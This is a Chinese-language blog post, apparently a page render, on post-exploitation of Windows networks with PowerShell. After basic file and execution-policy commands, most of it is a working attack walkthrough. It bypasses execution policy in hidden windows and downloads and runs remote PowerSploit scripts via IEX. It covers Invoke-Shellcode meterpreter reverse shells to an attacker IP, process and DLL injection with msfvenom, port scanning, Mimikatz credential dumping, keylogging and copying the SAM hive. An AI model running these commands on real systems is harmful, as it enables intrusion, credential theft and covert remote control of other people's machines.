 ```yaml
---
title: powershell内网渗透
date: 2015-12-25T08:52:52+08:00
update: 2016-01-01
categories: [网络安全]
tags: [powershell]
---
```


## 0x01 Powershell
     Powershell 启动 Powershell
     查看版本 $PSVersionTable.PSVersion
以管理员启动Powershell
 Start-Process notepad -Verb runas
 Start-Process "$PSHOME\powershell.exe" -Verb runas
具有一致的命名规范，都采用动词- 名词形式，如New-Item
动词部分一般为Add、New、Get、Remove、Set等

模块路径: $Env:PSModulePath

## 0x02 Powershell 文件操作
   以文件操作为例讲解PowerShell命令的基本用法
 新建目录 New-Item whitecellclub -ItemType Directory
 新建文件 New-Item light.txt -ItemType File
 删除目录 Remove-Item whitecellclub
 显示文本内容 Get-Content light.txt
 设置文本内容 Set-Content light.txt -Value "i love light so much"
 追加内容 Add-Content light.txt -Value "but i love you more"
 清除内容 Clear-Content light.txt

## 0x03 powershell脚本
了解计算机上的现用执行策略，键入：get-executionpolicy
 Restricted——默认的设置， 不允许任何script运行
 AllSigned——只能运行经过数字证书签名的script
 RemoteSigned——运行本地的script不需要数字签名，但是运行从网络上
下载的script就必须要有数字签名
 Unrestricted——允许所有的script运行。
若要在本地计算机上运行您编写的未签名脚本和来自其他用户的签名脚本，
请使用以下命令将计算机上的执行策略更改为 RemoteSigned：
set-executionpolicy remotesigned

## 0x04 powershell 安全
本地权限绕过执行
`PowerShell.exe -ExecutionPolicy Bypass -File xxx.ps1`
本地隐藏权限绕过执行脚本
`PowerShell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden（隐藏窗口） -File xxx.ps1`
**直接用IEX下载远程的PS1脚本回来权限绕过执行**
`powershell "IEX (New-Object Net.WebClient).DownloadString('http://is.gd/oeoFuI'); InvokeMimikatz -DumpCreds"`

## 0x05 powersploit 后渗透

`git clone https://github.com/PowerShellMafia/PowerSploit.git`
创建本地服务: `python -m SimpleHTTPServer`
CodeExecution 在目标主机执行代码
ScriptModification 在目标主机上创建或修改脚本
Persistence 后门脚本（持久性控制）
AntivirusBypass 发现杀软查杀特征
Exfiltration 目标主机上的信息搜集工具
Mayhem 蓝屏等破坏性脚本
Recon 以目标主机为跳板进行内网信息侦查

远程代码执行：
IEX (New-Object Net.WebClient).DownloadString(“http://<ip_address>/path/xxx.ps1”)

## 0x06
`python -m SimpleHTTPServer`
目标主机‘安装’invoke-shellcode脚本
`IEX (New-Object Net.WebClient).DownloadString("http://127.0.0.1:8000/CodeExecution/Invoke-Shellcode.ps1")`
查看帮助信息
`Get-Help Invoke-Shellcode`
2、目标主机开启反弹马：Lhost 为服务器的KALI
`Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.100.33 -Lport 4444 -Force`


一、当前进程注入meterpreter反弹马payload
1、Kali Linux开启metasploit监听：
msf > use exploit/multi/handler

msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_https
>PAYLOAD => windows/meterpreter/reverse_https

msf exploit(handler) > set LHOST 192.168.146.129
>LHOST => 192.168.146.129

msf exploit(handler) > set LPORT 4444
>LPORT => 4444

msf exploit(handler) > exploit

3、Linux成功接收，得到一个meterpreter的shell


## 0x07 进程注入
二、指定进程注入反弹马
1、Get-Process获取当前进程
也可以新建一个隐藏进
程并注入：
Start-Process c:\windows\system32\notepad.exe -WindowStyle Hidden
25 www.whitecell.club
内网渗透实例
2、注入
Invoke-Shellcode -ProcessID 1628 -Payload
windows/meterpreter/reverse_https -Lhost 192.168.146.129 -Lport 4444

## 0x08 DLL 注入
可以利用powersploit将dll文件注入到当前进程中，但是dll文件必须在目标主
机上。
1、下载安装powersploit的dll注入脚本：
IEX (New-Object
Net.WebClient).DownloadString("http://192.168.146.129/CodeExecution/Inv
oke-DllInjection.ps1")
2、用metasploit生成一个dll反弹马
msfvenom -p windows/x64/meterpreter/reverse_tcp
LHOST=192.168.146.129 LPORT=4444 -f dll > /var/www/msf.dll
3、将DLL文件传输到目标主机
3、开启一个隐藏进程并注入DLL
Start-Process c:\windows\system32\notepad.exe -WindowStyle Hidden
Invoke-DllInjection -ProcessID 2356 -Dll .\msf.dll
4、修改metasploit监听设置并启动

## 0x09 端口扫描

Invoke-Portscan端口扫描
IEX(New-Object Net.WebClient).DownloadString("http://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/Invoke-Portscan.ps1")
Invoke-Portscan -Hosts 192.168.146.133,192.168.146.129 -Ports
"21,22,80,8080,1433,3389"

## 0x10 Invoke-Mimikatz 查看主机密码（需要管理员权限）
下载执行脚本：
IEX (New-Object
Net.WebClient).DownloadString("http://192.168.146.129/Exfiltration/Invoke-Mimikatz.ps1")
DUMP密码：
Invoke-Mimikatz -DumpCreds
mimikatz作者博客：
http://blog.gentilkiwi.com/mimikatz
https://github.com/gentilkiwi/mimikatz/releases/tag/2.0.0-alpha-20150906
## 0x11
键盘记录（详细的鼠标、键盘输入记录）
IEX (New-Object
Net.WebClient).DownloadString("http://192.168.146.129/Exfiltratio
n/Get-Keystrokes.ps1")
Get-Keystrokes -LogPath .\keylogger.txt
## 0x12 超级复制（需要管理员权限，可以复制受保护的运行中的系统文件）
IEX (New-Object
Net.WebClient).DownloadString("http://192.168.146.129/Exfiltration/InvokeNinjaCopy.ps1")
Invoke-NinjaCopy -Path "C:\Windows\System32\config\SAM"
 -
LocalDestination "C:\Users\light\Desktop\SAM"
